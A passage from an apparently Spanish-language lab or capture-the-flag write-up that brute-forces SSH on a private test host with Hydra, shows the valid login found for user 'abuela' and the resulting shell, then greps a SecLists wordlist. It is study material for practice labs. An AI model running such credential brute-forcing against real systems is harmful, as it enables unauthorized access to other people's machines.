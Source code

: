 Usemos esa pequeña lista en **hydra** y veamos si alguna palabra coincide como usuario:
```bash
hydra -L users.txt -p '*****' ssh://192.168.1.140:22
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-03 14:52:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:3/p:1), ~1 try per task
[DATA] attacking ssh://192.168.1.140:22/
[22][ssh] host: 192.168.1.140   login: abuela   password: **********
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-03 14:52:09
```

Excelente, probemos si el **usuario abuela** funciona al conectarnos al **servicio SSH**:
```bash
ssh abuela@192.168.1.140
abuela@192.168.1.140's password: 
Linux papafrita 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
abuela@papafrita:~$ whoami
abuela
```
Estamos dentro.

Si buscamos la palabra **abuela** dentro de `/usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt`, podemos encontrar algunas coincidencias:
```bash
cat /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt | grep -n "abuela"
1166972:tuabuelaloca
5327075:fumabuela
7317324:abuelastra
7317325:abuelas2
7317326:abuelaileh
7317327:abuelaadf1
7317328:abuela
```
Hubiera sido muy tardado obtener un resultado exitoso.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>

